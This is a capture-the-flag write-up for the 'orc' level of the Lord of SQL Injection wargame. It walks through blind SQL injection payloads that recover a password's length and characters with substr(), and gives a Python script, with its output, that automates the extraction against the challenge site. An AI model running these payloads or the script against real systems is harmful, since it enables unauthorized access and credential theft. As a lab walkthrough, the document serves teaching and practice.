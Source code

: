 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3fb3ba7d-5c3a-40cc-8b3a-8dcd16ebe014)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. For that we have to perform a Blind SQL Injection.

### Blind SQL Injection

First we have to reveal the length of the flag.

If we provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=1 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=1

## Commented part:
'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/d0e5928c-c2a2-4355-a6a2-af11d1804556)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=8 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8

## Commented part:
'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/9e438378-10e1-4f7a-9353-bdf75700825d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/e332b358-2371-4f97-a9be-e1e5afce6f68)

If we provide the following URI:

```
?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)='0'

## Commented part:
'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/d479be75-0818-47a3-8d89-991e9dcd1926)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the first character of the `pw` for `id=admin` is `0`.

We can now move onto the second character:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='0'

## Commented part:
'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/557a333a-920a-485b-926b-e87bfbf8b8f4)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='9' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='9'

## Commented part:
'
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/e9d938ad-34aa-4f07-8e9b-167b5d1ec34d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the second character of the `pw` for `id=admin` is `9`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
095a9852
```

Now, we can provide password URI:

```
?pw=095a9852
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

## Script

We can automate the entire process using a script.

```py title="orc_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jkvees84mr4jq3nallg9rum7he'}
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
password_length = 0

for x in range(0, 10):
  payload = f"' OR id='admin' AND length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\orc_script.py

[!] Payload: ?pw=' OR id='admin' AND length(pw)=8 -- -
[!] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+length%28pw%29%3D8+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%270%27+--+-
[+] Character at index 1: 0

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%279%27+--+-
[+] Character at index 2: 9

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 3, 1)='5' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%275%27+--+-
[+] Character at index 3: 5

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 4, 1)='a' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%27a%27+--+-
[+] Character at index 4: a

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 5, 1)='9' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%279%27+--+-
[+] Character at index 5: 9

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 6, 1)='8' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%278%27+--+-
[+] Character at index 6: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 7, 1)='5' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%275%27+--+-
[+] Character at index 7: 5

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 8, 1)='2' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%272%27+--+-
[+] Character at index 8: 2

[!] Extracted password: 095a9852
[!] Final payload: ?pw=095a9852
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/ef9ae213-af29-4450-8d2e-34d02565e928)

